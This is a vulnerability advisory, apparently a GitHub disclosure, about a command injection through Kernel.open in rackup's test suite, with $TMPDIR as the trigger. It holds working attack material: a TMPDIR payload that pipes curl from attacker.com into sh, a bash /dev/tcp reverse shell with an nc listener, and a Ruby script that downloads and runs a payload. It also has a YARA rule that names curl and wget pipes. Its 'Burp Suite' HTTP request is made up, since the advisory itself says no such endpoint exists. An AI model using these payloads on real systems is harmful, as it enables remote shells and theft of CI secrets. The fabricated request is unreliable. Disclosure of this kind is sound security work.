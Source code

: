 ## Summary
A **Command Injection vulnerability** exists in the test suite of the [`rack/rackup`](https://github.com/rack/rackup) project (prior to version `1.0.1`). It occurs due to the insecure usage of `Kernel.open()` on a file path derived from an attacker-controlled environment variable (`$TMPDIR`). This flaw enables arbitrary shell command execution during test execution, leading to full **remote code execution (RCE)** in environments where tests are run with developer or CI/CD privileges.

---

### Technical Details

* **Component**: `test/spec_server.rb`
* **Line of Code**: [Line 528](https://github.com/rack/rackup/blob/c6cdd479172f042be405a36709ab27a2dff3a6e1/test/spec_server.rb#L528)
* **Affected Versions**: `< 1.0.1`
* **Vulnerable Function**: `Kernel.open`
* **Trigger Vector**: Malicious `$TMPDIR` environment variable
* **Exploitability**: Local (via environment), remotely feasible via poisoned CI/CD or dependency test run

```ruby
pidfile = Tempfile.new("rackup-pid")
# ...
pid = open(pidfile.path).read.strip  # <- Vulnerable call
```

Ruby's `Kernel.open()` function executes a shell command if the path begins with a `|`. This allows a malicious value in `TMPDIR` to control the path of `Tempfile.new`, leading to shell command injection.

---

## Description of Impact
This vulnerability allows attackers to execute arbitrary shell commands by poisoning the `$TMPDIR` environment variable prior to invoking the test suite or any code path using the vulnerable `Tempfile.new` followed by `Kernel.open`. Since many CI pipelines and developers run test commands with elevated privileges or in trusted environments, exploitation can result in:

* Arbitrary command execution
* Compromised CI/CD pipelines
* Access to secrets, tokens, and environment variables
* Backdoor injection into build artifacts
* Persistent reverse shells

Even though this vulnerability is in a test file, its impact is **critical** in development, testing, or CI/CD environments where untrusted actors (e.g., contributors) may influence the test execution or manipulate environment variables.


## Proof of Concept (Burp Suite)

```http
# Not a direct HTTP attack, but can be modeled as an environmental injection
# Equivalent of Burp-style shell trigger:

POST /test-trigger HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded

TMPDIR=|curl${IFS}http://attacker.com/shell.sh|sh${IFS}&#
```

## Vulnerable Code

**File**: `test/spec_server.rb`
**Line**: 528

```ruby
pidfile = Tempfile.new("rackup-pid")
# ...
pid = open(pidfile.path).read.strip  # Vulnerable to shell execution if path starts with "|"
```
Ruby's `Kernel.open()` is overloaded to support command execution when passed a string prefixed with `|`. Without sanitization or verification of the path, this allows attacker-controlled execution.

## Exploit Steps

1. **Set Malicious TMPDIR**

```bash
export TMPDIR='|curl${IFS}http://attacker.com/shell|sh${IFS}&${IFS}#'
```

2. **Prepare Payload**

```bash
# Attacker side - payload for reverse shell
cat <<EOF > shell.sh
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'
EOF

python3 -m http.server 80
```

3. **Run Vulnerable Test**

```bash
# Developer or CI runs this (simulating test)
bundle exec rake test
```

4. **Receive Reverse Shell**

```bash
nc -nvlp 4444
```

## Full Exploit Script

```ruby
# rackup_exploit.rb
require 'tempfile'

ENV['TMPDIR'] = '|curl${IFS}http://10.0.0.1:8000/payload.sh${IFS}-o${IFS}/tmp/x&&chmod${IFS}+x${IFS}/tmp/x&&/tmp/x${IFS}&${IFS}#'

pidfile = Tempfile.new("rackup-exploit")
puts "[+] Path: #{pidfile.path}"

# Trigger Kernel.open() indirectly
pid = open(pidfile.path).read rescue nil
puts "[!] Payload executed. Check reverse shell."
```

### Detection & Forensics - Environment Inspection
```bash
cat /proc/*/environ | tr '\0' '\n' | grep TMPDIR
```

#### 🧬 YARA Rule

```yara
rule rackup_command_injection {
    strings:
        $a = "|curl"
        $b = "|wget"
        $c = "TMPDIR="
    condition:
        any of ($*) and filesize < 1MB
}
```


### References
* [CWE-78: OS Command Injection](https://cwe.mitre.org/data/definitions/78.html)
* [RubySec Kernel.open Advisory](https://rubysec.com/advisories/CVE-2021-31799/)
* [Rackup PR #36](https://github.com/rack/rackup/pull/36)



### 👤 Credits
Discovered by [PtR (ptrgits)](https://github.com/ptrgits)


